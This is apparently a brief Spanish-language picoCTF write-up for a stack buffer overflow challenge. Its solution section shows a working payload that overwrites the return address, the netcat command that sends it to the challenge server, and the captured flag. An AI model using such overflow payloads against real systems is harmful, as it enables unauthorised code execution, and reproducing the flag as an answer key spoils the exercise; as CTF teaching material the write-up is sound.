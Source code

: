 
## Objetivo

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/187/vuln). You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). And connect with it using `nc saturn.picoctf.net 53727`

## Datos de Acceso al Nivel

[program](https://artifacts.picoctf.net/c/187/vuln). You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). And connect with it using `nc saturn.picoctf.net 53727`
## Solucion

```
┌──(kali㉿kali)-[~/picoCTF/binexp/bufferoverflow1]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 61999
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}    
```

## Notas Adicionales



## Referencias
